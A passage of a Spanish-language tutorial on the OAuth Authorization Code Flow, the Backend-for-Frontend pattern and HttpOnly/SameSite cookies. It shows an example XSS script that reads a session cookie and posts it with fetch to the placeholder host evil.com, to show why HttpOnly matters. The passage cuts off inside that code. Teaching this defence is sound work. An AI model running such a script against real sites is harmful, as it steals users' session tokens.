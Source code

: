 ## Teoría

### Fundamentos del Authorization Code Flow

El Authorization Code Flow es considerado el **estándar de oro** para aplicaciones web que ejecutan en un servidor (aplicaciones confidenciales). Su diseño de dos pasos proporciona la máxima seguridad:

**¿Por qué es más seguro?**
- **Separación de canales**: El authorization code viaja por el canal frontal (navegador), pero el intercambio por tokens ocurre en el canal trasero (servidor a servidor)
- **Client authentication**: El servidor puede autenticarse usando `client_secret`, algo imposible en SPAs
- **Tokens nunca expuestos**: Los access tokens nunca llegan al navegador, eliminando vectores de ataque XSS

### Patrón Backend-for-Frontend (BFF)

**¿Qué resuelve el BFF?**
- **Token management**: El servidor maneja todos los tokens en memoria/base de datos
- **Session management**: Cookies HttpOnly + SameSite eliminan riesgos de XSS/CSRF (ver explicación detallada abajo)
- **API aggregation**: Un solo punto para múltiples APIs, simplificando el frontend
- **Security policies**: Implementación centralizada de headers, rate limiting, etc.

### Cookies Seguras: HttpOnly y SameSite

#### 🍪 Atributo HttpOnly

**¿Qué hace HttpOnly?**
- **Bloquea acceso desde JavaScript**: Las cookies marcadas con `HttpOnly` NO pueden ser leídas por `document.cookie`
- **Solo HTTP/HTTPS**: La cookie solo se envía en requests HTTP, no está disponible para scripts del lado cliente

**Ejemplo de configuración:**
```javascript
// ❌ Cookie vulnerable a XSS
res.cookie('session_id', 'abc123', {
  secure: true,
  maxAge: 3600000
});

// ✅ Cookie protegida contra XSS
res.cookie('session_id', 'abc123', {
  httpOnly: true,    // 🛡️ No accesible via JavaScript
  secure: true,      // 🔒 Solo HTTPS
  maxAge: 3600000
});
```

**Protección contra XSS:**
```html
<!-- Ataque XSS típico -->
<script>
  // ❌ Con cookies normales esto funciona
  const sessionId = document.cookie
    .split('; ')
    .find(row => row.startsWith('session_id='))
    ?.split('=')[1];
  
  // Enviar session_id al atacante
  fetch('https://evil.com/steal', {
    method: 'POST',
    body: JSON.stringify({token: sessionId})
```
